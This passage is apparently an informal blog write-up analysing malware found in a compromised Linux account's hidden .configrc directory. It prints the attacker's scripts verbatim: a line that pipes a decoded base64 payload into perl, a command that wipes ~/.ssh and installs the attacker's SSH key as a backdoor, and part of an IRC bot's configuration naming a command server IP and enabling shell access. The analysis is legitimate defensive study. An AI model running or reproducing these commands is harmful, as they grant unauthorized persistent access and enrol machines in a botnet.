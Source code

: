Meanwhile, what about `b`?

`b/sync`, the entrypoint, contains the following pointless code:

```bash
#!/bin/sh
cd /home/test/.configrc/b
./run
```

Ah well.  I guess this is a kind of security by constant redirect.  `run`
contains this:

```bash
echo $VeryLongBase64EncodedString | base64 --decode | perl
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh
```

Let's hope that's not their only public key :p  Charming username, too.  Also
not FQDN, how rude.  The very long base64 encoded string decodes to the
following perl:

```perl
eval unpack $VeryLongPerlString
```

Hmm.  No, I don't think I will.  What about `print` for `eval`?

And neatly formatted (for once!) indented perl drops out onto the terminal.  Oh.
So after all that effort, in the language which is famous for stupid
obfuscations, they didn't bother?  Nice, I guess.

Here is some of it:

```perl
my $processo = 'rsync';

$servidor='45.9.148.99' unless $servidor;
my $porta='443';
my @canais=("#007");
my @adms=("polly","molly");
my @auth=("localhost");

my $linas_max=6;
my $sleep=3;

my $nick = getnick();
my $ircname = getnick();
my $realname = (`uname -a`);

my $acessoshell = 1;
my $prefixo = "! ";
my $estatisticas = 0;
my $pacotes = 1;

my $VERSAO = '0.2a';

$SIG{'INT'} = 'IGNORE';
$SIG{'HUP'} = 'IGNORE';
$SIG{'TERM'} = 'IGNORE';
$SIG{'CHLD'} = 'IGNORE';
$SIG{'PS'} = 'IGNORE';
```
